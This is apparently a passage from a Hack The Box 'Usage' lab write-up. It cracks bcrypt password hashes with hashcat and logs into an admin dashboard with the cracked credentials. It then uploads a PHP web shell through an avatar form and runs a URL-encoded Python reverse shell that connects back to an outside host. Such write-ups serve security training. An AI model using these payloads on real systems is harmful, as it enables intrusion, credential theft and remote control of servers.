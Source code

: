 ```bash
hashcat -m 3200 --user creds /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

**Results:**

```
administrator:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
raj:$2y$10$rbNCGxpWp1HSpO1gQX4uPO.pDg1nszoI/UhwHvfHDdfdfo9VmDJsa:xander
raj:$2y$10$7ALmTTEYfRVd8Rnyep/ck.bSFKfXfsltPLkyQqSp/TT7X1wApJt4.:xander
```

---

## Admin Dashboard Access

Using the cracked credentials (`admin:whatever1`), logged into `http://admin.usage.htb/admin/auth/login`. The dashboard provided user management functionality, including editing user profiles with avatar uploads.

![images (11)](images (11).png)

---

## Web Exploitation

### File Upload Vulnerability

In the admin dashboard, the user edit form (`/admin/auth/users/1/edit`) allowed avatar uploads. The form was intercepted using Burp Suite to test for file upload vulnerabilities:

```http
POST /admin/auth/users/1 HTTP/1.1
Host: admin.usage.htb
Content-Type: multipart/form-data; boundary=---------------------------30014490272757962256839649296
Content-Length: 8294
...

-----------------------------30014490272757962256839649296
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_REQUEST["cmd"]); ?>
-----------------------------30014490272757962256839649296
...
```

The server accepted the PHP file, stored at `http://admin.usage.htb/uploads/images/shell.php`. Executed a reverse shell:

```bash
http://admin.usage.htb/uploads/images/shell.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.16.30%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22%2Fbin%2Fbash%22)%27
```

